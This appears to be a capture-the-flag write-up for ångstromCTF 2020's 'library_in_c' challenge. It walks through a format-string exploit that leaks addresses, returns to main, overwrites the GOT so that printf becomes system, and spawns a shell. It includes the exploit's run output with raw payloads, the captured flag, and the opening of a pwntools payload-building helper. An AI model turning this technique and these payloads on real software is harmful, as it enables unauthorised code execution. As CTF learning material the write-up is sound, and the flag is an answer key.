 ### Putting it all together

How the final exploit is executed:
1. leak the addreses for future payloads
2. overwrite the return address to return to main
3. after returning to main, use additional `printf` call to overwrite `GOT`.
4. the next `printf` call will actually be a `system` call. But wait, the next '`printf` is again called with our input as it's only argument, so we can simply send `/bin/sh\x00` and `system('/bin/sh')` gets executed.

```bash
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 xplt.py 
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/library_in_c'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to shell.actf.co on port 20201: Done
[*] return address stored at 0x7ffea5436a18
[*] libc at 0x7f80bb20b000
[*] payload to ret2main b'%20$n%64s%21$hn%1799s%22$hn     \x1cjC\xa5\xfe\x7f\x00\x00\x1ajC\xa5\xfe\x7f\x00\x00\x18jC\xa5\xfe\x7f\x00\x00'
[*] returning to main
[*] printing 37 to 6295602 and 912 to 6295600
[*] sending overwrite payload b'%12$37s%12$hhn%12$875s%13$hn    2\x10`\x00\x00\x00\x00\x000\x10`\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
                                                                                               %\xbb\x80\x7f    2\x10And what book would you like to check out?
sh: 1: Your: not found
sh: 2: -: not found
$ ls
flag.txt
library_in_c
library_in_c.c
$ cat flag.txt
actf{us1ng_c_15_n3v3r_4_g00d_1d34}
```

## Exploit listing

```
from pwn import *

def write(what, where):
    what = what & 0xffffff
    hi_byte = what >> 16
    low_word = what & 0xffff

    log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')

    payload = b'%12$'
    payload += str(hi_byte).encode()
    payload += b's%12$hhn'
    payload += b'%12$'
    payload += str(low_word -hi_byte).encode()
    payload += b's%13$hn'
```